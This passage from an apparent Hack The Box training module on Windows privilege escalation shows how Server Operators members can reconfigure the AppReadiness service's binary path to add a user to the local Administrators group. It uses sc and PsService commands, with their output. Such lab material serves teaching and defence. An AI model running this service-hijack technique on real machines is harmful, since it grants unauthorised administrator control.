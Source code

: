 ##### Querying the AppReadiness Service

Let's examine the `AppReadiness` service. We can confirm that this service starts as SYSTEM using the `sc.exe` utility.

``` batch
C:\htb> sc qc AppReadiness

[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: AppReadiness
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\System32\svchost.exe -k AppReadiness -p
```


##### Checking Service Permissions with PsService

We can use the service viewer/controller [PsService](https://docs.microsoft.com/en-us/sysinternals/downloads/psservice), which is part of the Sysinternals suite, to check permissions on the service.


``` batch
C:\htb> c:\Tools\PsService.exe security AppReadiness
```

This confirms that the Server Operators group has [SERVICE_ALL_ACCESS](https://docs.microsoft.com/en-us/windows/win32/services/service-security-and-access-rights) access right, which gives us full control over this service.

#### Modifying the Service Binary Path (Add user to admin group)

Let's change the binary path to execute a command which adds our current user to the default local administrators group.

``` batch
C:\htb> sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"

[SC] ChangeServiceConfig SUCCESS
```

Starting the service fails, which is expected. - **It worked**

``` batch
C:\htb> sc start AppReadiness

[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

If we check the membership of the administrators group, we see that the command was executed successfully.

``` batch
C:\htb> net localgroup Administrators
-------------------------------------------------------------------------------
Administrator
Domain Admins
Enterprise Admins
server_adm
The command completed successfully.
```
#### Local Admin Group Membership Attacks
